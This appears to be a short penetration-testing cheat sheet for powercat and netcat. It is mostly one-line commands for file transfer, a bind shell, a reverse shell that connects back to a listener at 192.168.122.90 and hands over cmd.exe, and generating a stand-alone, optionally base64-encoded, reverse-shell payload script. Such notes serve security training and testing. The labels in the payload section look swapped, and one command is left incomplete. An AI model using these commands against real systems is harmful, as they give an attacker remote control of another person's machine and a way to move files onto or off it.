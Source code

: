 ```yaml
---
title: "powercat"
linkTitle: "powercat"
date: 2017-01-05
---
```


### File transfert

`Alice -> Bob`

1. Alice

    ```bash
    nc -lnvp 1234 > receiving_powercat.ps1
    ```

2. Bob

    ```powershell
    powercat -c 192.168.122.90 -p 1234 -i C:\Users\aaa\Desktop\powercat.ps1
    ```

### Bind shell

`Alice -> Bob`

1. Bob

    ```powershell
    powercat -l -p 1234 -e cmd.exe
    ```

2. Alice

    ```bash
    nc 192.168.122.90 1234
    ```

### Reverse shell

`Alice <- Bob`

1. Alice

    ```bash
    nc -lnvp 1234
    ```

2. Bob

    ```bash
    powercat -c 192.168.122.90 -p 1234 -e cmd.exe
    ```

### Stand-alone payload

Reverse shell with a stand-alone payload.

`Alice <- Bob`

1. Alice: Generate payload with `-g` or `-ge` for base64 encoded payload.

    ```powershell
    powercat -c 192.168.122.90 -p 1234 -e cmd.exe -g > reversershell.ps1

    ./reversershell.ps1
    ```

    If `-ge` is used, the payload has to be run with `-E` flag `powershell -E ${base64}`

    ```powershell
    powershell.exe -E
    ```

2. Bob

    ```bash
    nc -lnvp 1234
    ```
